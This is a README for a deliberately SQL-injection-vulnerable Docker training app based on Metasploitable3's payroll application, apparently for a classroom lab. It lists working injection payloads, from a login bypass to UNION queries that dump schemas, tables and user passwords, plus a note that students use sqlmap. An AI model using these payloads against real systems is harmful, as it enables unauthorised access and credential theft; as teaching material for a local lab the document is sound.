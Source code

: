 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Lancement


docker-compose up --env-file .env -d

Open web browser and visit:

- `http://localhost:8080`


## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

Dump all server databases

' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata; #

Dump all tables in a database (here: capturethefenelon)

' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='capturethefenelon' #


Dump all columns names in a table (here: users)

' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #


Dump all datas

' UNION ALL SELECT NULL,concat(0x28,username,0x3a,first_name,0x3a,last_name,0x3a,password,0x29) FROM users #




Doivent le faire avec sqlmap
Fournir le TP sqlmap